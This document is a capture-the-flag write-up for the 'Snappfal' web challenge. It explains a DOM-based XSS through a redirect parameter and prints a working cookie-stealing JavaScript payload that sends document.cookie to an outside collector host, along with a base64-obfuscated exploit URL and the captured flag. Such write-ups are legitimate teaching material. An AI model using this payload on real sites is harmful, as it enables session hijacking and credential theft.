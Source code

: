 # 1. Challenge Info

```
From now on Snapp can offer you fals if you want.

[Download attachments](https://snappctf.com/tasks/snappfal_0bfd799152fef7299463752d840c3225f64cb259.txz)

**Notes for beginners**

-[https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)

-You need to get XSS on https://snappfal.spchallenge.ir/

-When you got it, report your payload to https://snappfal-support.spchallenge.ir/

-A virtual browser will visit your payload... flag is in the cookies of `snappfal.spchallenge.ir`. Simply write a payload that steals `document.cookie` and submit the payload to [https://snappfal-support.spchallenge.ir/](https://snappfal-support.spchallenge.ir/).

-If your payload doesn't work on Admin bot, contact support.

-Admin closes the browser after 5 seconds.

-`src.js` is the source code of the website.

-`bot.js` is the script that controls the virtual browser ( You can ignore it ).
```

when we visit the website we encounter a page like this

![Pasted image 20240225002811.png](./Pasted image 20240225002811.png)

# 2. Solution

if we click on the button it will be like this for a few seconds and the redirects us to previous page

![Pasted image 20240225002857.png](./Pasted image 20240225002857.png)
if wee look at the page source

![Pasted image 20240225002941.png](./Pasted image 20240225002941.png)

![Pasted image 20240225003052.png](./Pasted image 20240225003052.png)

the input parameter back is for redirecting the user to an arbitrary page. so we can cause a dom-based XSS here by using javascript schema

![Pasted image 20240225003200.png](./Pasted image 20240225003200.png)

the goal of the challenge is to read the flag which is inside admin's cookie

![Pasted image 20240225003246.png](./Pasted image 20240225003246.png)

I used this payload to redirect admin back to my server containing it's cookie as query string

```js
window.location="https://eowlxdv1oni96il.m.pipedream.net/?f="+document.cookie
```

and the finalized url is

```
https://snappfal.spchallenge.ir/fal?back=javascript:eval(atob(%27d2luZG93LmxvY2F0aW9uPSJodHRwczovL2Vvd2x4ZHYxb25pOTZpbC5tLnBpcGVkcmVhbS5uZXQvP2Y9Iitkb2N1bWVudC5jb29raWUK%27))
```

![Pasted image 20240225003815.png](./Pasted image 20240225003815.png)

```
SNAPP{89d36f80b85bde916fbdeb8592c1b368}
```